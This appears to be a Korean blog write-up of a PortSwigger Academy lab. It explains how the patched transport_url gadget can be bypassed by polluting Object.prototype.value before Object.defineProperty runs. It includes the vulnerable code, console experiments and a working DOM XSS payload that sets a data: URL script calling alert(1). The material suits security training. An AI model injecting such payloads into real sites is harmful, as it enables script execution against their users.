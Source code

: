 ```yaml
---
layout: post
title: "Burp Academy-Prototype Pollution 네번째 문제:Client-side prototype pollution via browser APIs"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Prototype Pollution]
toc: true
---
```



# 개요
- 프로토타입 폴루션(Prototype Pollution, 프로토타입 오염) 취약점 네번째 문제이다. 
- 문제 주소: https://portswigger.net/web-security/prototype-pollution/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis
- 프로토타입 폴루션 설명 주소
1. https://portswigger.net/web-security/prototype-pollution
2. https://portswigger.net/web-security/prototype-pollution/browser-apis
- 난이도: PRACTITIONER (중간)

# 문제 분석

이번에는 브라우저 API에 취약점이 있는 경우다. 

```
This lab is vulnerable to DOM XSS via client-side prototype pollution. The website's developers have noticed a potential gadget and attempted to patch it. However, you can bypass the measures they've taken.

To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global Object.prototype.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call alert().

You can solve this lab manually in your browser, or use DOM Invader to help you.

This lab is based on real-world vulnerabilities discovered by PortSwigger Research. For more details, check out Widespread prototype pollution gadgets by Gareth Heyes.
```

# 풀이 
Dom Invader 를 사용하면 너무 쉽게 풀리므로 직접 풀어보도록 하겠다. 

## 프로토타입 폴루션 가능여부 체크 
`&__proto__[test]=1234` 로 테스트해본다. 

프로토타입 폴루션이 기능한 것을 확인했다. 

![프로토타입 폴루션 체크](/images/burp-academy-prototype-pollution-4-1.png)


## 취약한 코드 분석 

`searchLoggerConfigurable.js` 파일을 본다. 
```js
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```

```js
Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
```

이 부분이 예전 문제와 비교하면 달라진 부분이다. configurable 과 writable 을 false로 설정해서 prototype pollution 공격을 방어한 부분이 보인다. 그러나 허점이 있을 것이다. 그 곳을 찾아내서 공략하면 이 문제는 풀릴 것 같다. 


# 풀이 
## 우회 방법 분석 
크롬 디버거 툴의 자바스크립트 콘솔에서 간단한 테스트를 해본다. 위의 방어 코드를 우회하는 방법이 있을지 생각해본다. `Object.defineProperty` 코드가 실행되기 이전에 프로토타입 폴루션을 실시한 경우, 영향을 받는 것을 확인할 수 있다. 

```js
obj = {}
Object.defineProperty(obj, "test_property", {writable:false, configurable:false});
// writable, configurable 설정후에 값을 변경해본다. 
obj.test_property = 100;
// 아래 코드를 실행해보면 값이 변하지 않은 것을 확인할 수 있다. 
obj.test_property 

// 글로벌 Object의 prototype을 변경해본다. 
Object.prototype.value = 200;
// 글로벌 Object의 prototype을 변경하기 전에 생성된 obj객체의 test_property 의 값은 변하지 않은 것을 확인할 수 있다. 
obj.test_property

// 새로운 오브젝트를 만들어서 값을 확인해본다. 
obj2 = {};
Object.defineProperty(obj2, "test_property", {writable:false, configurable:false});

// test_property의 값이 글로벌 Object의 prototype의 value값으로 설정된 것을 확인할 수 있다. 
obj2.test_property
```

![크롬 콘솔 테스트](/images/burp-academy-prototype-pollution-4-console-test.png)


위 과정을 정리하면 다음과 같다. 
1. 오브젝트 obj 생성
2. Object.defineProperty 로 obj의 프로퍼티를 수정하는 것을 막음
3. 프로토타입 폴루션 시도 (=> obj는 영향받지 않음)
4. 오브젝트 obj2 생성
5. Object.defineProperty 로 obj2의 프로퍼티를 수정하는 것을 막음
6. 그러나 이미 3번 과정에서 프로토타입 폴루션이 되어 있는 상태이기 때문에 obj2는 영향을 받음

## 공격 코드 만들기 
문제의 방어 코드가 동작하는 타이밍(오브젝트가 생성되는 타이밍)을 생각해보면 로그를 기록하기 직전이다. 따라서 그 전에 프로토타입 폴루션을 할 수 있다면 config 오브젝트의 transport_url 프로퍼티의 값을 바꿀 수 있을 것이다. `value`프로퍼티에 XSS 페이로드를 설정한다. 
다음과 같은 페이로드를 만들었다. 

```&__proto__[value]=data:text/javascript,alert(1)``` 

성공! 

![alert 성공](/images/burp-academy-prototype-pollution-4-success.png)